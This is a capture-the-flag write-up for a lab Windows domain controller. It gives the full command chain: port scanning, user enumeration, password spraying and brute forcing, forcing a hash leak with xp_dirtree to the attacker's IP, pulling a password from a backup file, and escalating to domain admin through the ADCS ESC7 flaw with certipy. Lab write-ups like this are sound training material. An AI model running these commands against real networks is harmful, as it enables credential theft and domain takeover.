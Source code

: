#Pwned! 
```IP
10.10.11.236
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 10.10.11.236 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus     
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Manager
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-12-29 16:29:33Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127     
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49689/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49691/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49721/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49768/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP 80
nothing interesting after fuzzing and analyzing source code
## Kerberos 88
kerbrute user enumeration:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104001.png?raw=true)
## SMB
```
nxc smb 10.10.11.236 -u 'test' -p '' --shares
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104137.png?raw=true)
```
nxc smb 10.10.11.236 -u 'test' -p '' --rid-brute 3000
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104147.png?raw=true)
We have no interesting shares apparently.
After some trial and error, I discovered that we get a hit with `operator` if we make the user list without capital letters:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229112128.png?raw=true)
```
operator:operator
```

## LDAP
operator is a hit too if we execute nxc against ldap protocol:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113313.png?raw=true)
However ldapsearch doesn't seem capable of retrieving much data:
```
ldapsearch -H ldap://dc01.manager.htb -x -D 'operator@manager.htb' -w 'operator' -b "DC=manager,DC=com"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113253.png?raw=true)
So we will use ldapdomaindump:
```
ldapdomaindump -u management.htb\\operator -p 'operator' 10.10.11.236 -o ./
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113421.png?raw=true)
We see that raven is apparently the only user capable of connecting remotely. Let's try bruteforcing his password:
```
nxc winrm 10.10.11.236 -u raven -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```
But we have no success.
## MSSQL
We can access the database with operator:operator
```
impacket-mssqlclient Operator@manager.htb -windows-auth
```
cmdshell is disabled, but we can execute xp_dirtree:
```
xp_dirtree '\\10.10.14.9\test'
```
And we get a manager hash, that we can't crack neither with john or hashcat.

# Exploitation
In MSSQL, we can also enumerate the C directories in the target machine with dirtree. This path will lead us to a old backup of the website inside the inetpub/wwwroot directory:
```
xp_dirtree C:\inetpub\wwwroot
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115042.png?raw=true)
We should be able to download it with a browser. Once downloaded, I create a new folder in my local machine and unzip its contents there:
```
unzip website-backup-27-07-23-old.zip -d backup-old
```
Inside `.old-conf.xml` we find a password for user raven:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115425.png?raw=true)
Let's try our credentials on winrm:
```
R4v3nBe5tD3veloP3r!123
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115655.png?raw=true)
We get access to raven and its user.txt flag.
# PrivEsc

## Manual
After some unsuccessful manual enumeration, knowing that it is a windows domain, we are left with certificates (ADCS) and Bloodhound.
```
certipy-ad find -vulnerable -stdout -u raven@10.10.11.236 -p 'R4v3nBe5tD3veloP3r!123'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229122653.png?raw=true)
We can see how to escalate this vulnerability in the official certipy page:
https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7
```
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -template SubCA -upn administrator@manager.htb
```
```
certipy-ad ca -ca manager-DC01-CA -issue-request 20 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -retrieve 20
```
We can now retrieve an NTLM hash with our administrator.pfx:
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229125317.png?raw=true)
We get an error message because the target machine date and our VM date differs too much. We can synchronize the dates with ntpdate tool:
```
sudo ntpdate 10.10.11.236
```
And now we can use evil-winrm to get an administrator shell and the root flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229125417.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement

